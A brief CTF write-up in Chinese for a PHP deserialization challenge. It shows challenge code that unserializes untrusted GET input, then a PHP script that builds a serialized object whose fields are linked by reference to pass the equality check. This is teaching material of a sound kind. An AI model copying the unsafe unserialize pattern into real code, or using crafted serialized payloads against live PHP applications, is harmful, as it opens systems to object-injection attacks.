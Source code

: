 
* * *

## **27.php 反序列化（300）**

代码：

```php
<?php
class just4fun {
    var $enter;
    var $secret;
}

if (isset($_GET['pass'])) {
    $pass = $_GET['pass'];

    if(get_magic_quotes_gpc()){
        $pass=stripslashes($pass);
    }

    $o = unserialize($pass);

    if ($o) {
        $o->secret = "*";
        if ($o->secret === $o->enter)
            echo "Congratulation! Here is my secret: ".$o->secret;
        else 
            echo "Oh no... You can't fool me";
    }
    else echo "are you trolling?";
}
?>
```

[这里有序列化反序列化的科普](http://blog.csdn.net/21aspnet/article/details/6908318)
总的来说让输一个·序列化过后的字符串并且类中的变量始终保持相同，这一下子就想到了引用 a=&b

```php
($o->secret === $o->enter)
```

我构造如下代码制造序列化字符串：

```php
<?php 
class just4fun {
    var $enter;
    var $secret;
    function just4fun()
    {
        $this->enter=&$this->secret;
    }
}
echo serialize(new just4fun());
?>
```
